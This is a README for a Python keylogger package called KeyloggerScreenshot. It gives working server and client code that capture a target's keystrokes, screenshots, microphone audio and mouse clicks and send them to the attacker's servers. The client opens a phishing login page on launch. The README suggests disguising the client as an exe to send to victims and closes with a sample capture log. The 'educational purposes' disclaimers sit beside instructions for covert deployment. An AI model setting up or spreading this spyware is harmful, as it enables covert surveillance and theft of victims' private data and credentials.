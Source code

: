 KeyloggerScreenshot
==================

Created by: Fawaz Bashiru

KeyloggerScreenshot allows the attacker to get all the information the target was typing and taking screenshot of specific minutes which is being calculated in the script and all the audio of the target was speaking will be stored where your server is located. You can open a link when the keylogger is executed. Follow the instructions to build your own server in "KeyloggerScreenshot"

check out my github (easier way):
https://github.com/Kill0geR/KeyloggerScreenshot

GITHUB-VERSION (SNEAK PEAK):

![kali_img](https://user-images.githubusercontent.com/106278241/206914635-c9d5e505-9499-4dce-91ed-5254f495929d.png)


SHOUT OUT TO:
==============

NAME: dyma020

link to his insta: https://www.instagram.com/dyma020/

He had the idea of the mouse information. He also build the graphical user interface. Big thanks to him

HOW DOES KeyloggerScreenshot WORK?
================================
To install KeyloggerScreenshot simply write:

`pip install KeyloggerScreenshot`

in your terminal

After that create a server:

Server
-----

````python
#EveryServer.py:
import KeyloggerScreenshot as ks
import threading

ip = "127.0.0.1"

ip_photos, port_photos = ip, 1111
server_photos = ks.ServerPhotos(ip_photos, port_photos)

ip_keylogger, port_keylogger = ip, 2222
server_keylogger = ks.ServerKeylogger(ip_keylogger, port_keylogger)

ip_listener, port_listener = ip, 3333
server_listener = ks.ServerListener(ip_listener, port_listener)

ip_time, port_time = ip, 4444
server_time = ks.Timer(ip_time, port_time)

threading_server = threading.Thread(target=server_photos.start)
threading_server.start()

threading_server2 = threading.Thread(target=server_keylogger.start)
threading_server2.start()

threading_server3 = threading.Thread(target=server_listener.start)
threading_server3.start()

threading_server4 = threading.Thread(target=server_time.start_timer)
threading_server4.start()
````


Then create the client

Client
------

````python
#client_target.py
import KeyloggerScreenshot as ks

ip = '127.0.0.1'
key_client = ks.KeyloggerTarget(ip, 1111, ip, 2222, ip, 3333,ip, 4444, duration_in_seconds=60, phishing_web="https://www.instagram.com/accounts/login/?__coig_restricted=1") # You can open a link when the keylogger starts
key_client.start()
````

You can specify the time of running in seconds in the "duration_in_seconds" variable

Essential Informations:
------------------------

* This module can be used in Windows and Linux

* The servers can now be run in the same file with the module threading

* The port number for each server should be different

* The server should obviously be run before the client

* You can just copy the following code and insert you ip-address in the variable "ip"

* You can find your ip-address in the command line by using the command "ipconfig"

* If you want a cool simulation you can specify that in ServerKeylogger by setting the Parameter simulater to True

* You can open a link that you can choose when the keylogger is executed. Set the Parameter "phishing_web" to your link

* If you really want to send this to work externally, you have to buy a server and download the code on my github.

* If backspace is pressed the last pressed character will be deleted from the list

Output
------
````
    __ __              __                                 _____                                       __            __ 
   / //_/___   __  __ / /____   ____ _ ____ _ ___   _____/ ___/ _____ _____ ___   ___   ____   _____ / /_   ____   / /_
  / ,<  / _ \ / / / // // __ \ / __ `// __ `// _ \ / ___/\__ \ / ___// ___// _ \ / _ \ / __ \ / ___// __ \ / __ \ / __/
 / /| |/  __// /_/ // // /_/ // /_/ // /_/ //  __// /   ___/ // /__ / /   /  __//  __// / / /(__  )/ / / // /_/ // /_  
/_/ |_|\___/ \__, //_/ \____/ \__, / \__, / \___//_/   /____/ \___//_/    \___/ \___//_/ /_//____//_/ /_/ \____/ \__/  
            /____/           /____/ /____/    

                        ~Created by: Fawaz Bashiru~          
                        ~Write "python KLS_start.py -help" for help in the github version~   
                        REMINDER THIS WAS BUILD FOR EDUCATIONAL PURPOSES  
                        SO DON'T USE THIS FOR EVIL ACTIVITIES !!!!!                        
        
Cyan: ServerPhotos
Blue: ServerKeylogger
Green: ServerListener
White: Timer

Waiting for connection...
Waiting for connection...
Waiting for connection....
Connection has been established with ('127.0.0.1', 49162)
The target is being connected. The Data of the target is coming....
Time left: 00:01
Successful connection for 1 minutes


Connection has been established with ('127.0.0.1', 49199)

Connection has been established with ('127.0.0.1', 49198)
The coordinates of the target have been saved to your directory
True
Text of target: Hello and welcome to KeyloggerScreenshot. I hope you like it and please remember do not use this for evil activities [TAB] 
"Audio of Target.wav" has been saved to your directory
Simulation will come in 10 seconds!!!
3 Images has been saved to your working directory
Waiting for connection...
Do you want to start y/n?: y

The target has clicked 1 times on his screen
This simulation will last for 0 minutes and 27 seconds

Time left: 00:01
THANK YOU FOR YOU USING KEYLOGGERSCREENSHOT
ERFOLGREICH: Der Prozess mit PID 7768 wurde beendet.
````
Directory of Attacker
----------------------
![endresult](https://user-images.githubusercontent.com/106278241/210905855-35bc8cc1-435e-4dc6-bae7-62fcdedd1484.png)

Additional
==========
* You can send "target.py" as an exe file to the target with "auto-py-to-exe"

* KeyloggerScreenshot is very easy to use.

* The servers can be used on any OS. The ideal target should use Windows as his OS

* DO NOT USE THIS TO ATTACK SOMEONE FOREIGN. THIS WAS BUILD FOR EDUCATIONAL PURPOSES.